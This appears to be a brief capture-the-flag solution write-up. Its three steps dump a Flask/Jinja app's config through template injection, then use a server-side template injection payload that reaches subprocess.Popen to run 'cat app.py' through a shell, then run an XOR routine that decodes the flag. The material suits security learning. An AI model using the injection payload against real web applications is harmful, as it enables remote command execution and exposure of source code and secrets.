 # Solution

Step 1, get the config

``` python
{{config}}
```

Step 2, get the app source code

``` python
{{ ''.__class__.__mro__[1].__subclasses__()[407]('cat app.py',shell=True,stdout=-1).communicate()[0].strip()}}
```

Step 3, run it yourself!

``` python
def magic(flag, key):
    return ''.join(chr(x ^ ord(flag[x]) ^ ord(key[::-1][x]) ^ ord(key[x])) for x in range(len(flag)))
 
flag="HKQ\x1f\x7f~e|\x06{r9<\x03/3z\x12#Rr )G#*\x14,#dp=Z@AP\x0c*"
magic(flag, '112f3a99b283a4e1788dedd8e0e5d35375c33747')
```
 
